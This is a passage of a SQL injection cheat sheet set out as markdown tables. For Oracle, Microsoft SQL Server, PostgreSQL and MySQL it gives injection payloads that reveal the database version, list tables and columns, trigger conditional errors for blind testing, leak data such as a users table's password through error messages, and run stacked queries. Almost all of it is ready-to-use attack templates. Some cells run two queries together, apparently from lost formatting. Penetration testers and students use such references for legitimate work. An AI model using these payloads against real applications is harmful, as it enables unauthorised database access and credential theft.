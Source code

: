 | Oracle     | `SELECT banner FROM v$versionSELECT version FROM v$instance` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT @@version`                                           |
| PostgreSQL | `SELECT version()`                                           |
| MySQL      | `SELECT @@version`                                           |

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle     | `SELECT * FROM all_tablesSELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL      | `SELECT * FROM information_schema.tablesSELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

## Extracting data via visible error messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

| Microsoft  | `SELECT 'foo' WHERE 1 = (SELECT 'secret')> Conversion failed when converting the varchar value 'secret' to data type int.` |
| :--------- | ------------------------------------------------------------ |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)> invalid input syntax for integer: "secret"` |
| MySQL      | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))> XPATH syntax error: '\secret'` |

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

| Oracle     | `Does not support batched queries.` |
| :--------- | ----------------------------------- |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HERE`        |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`        |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`        |
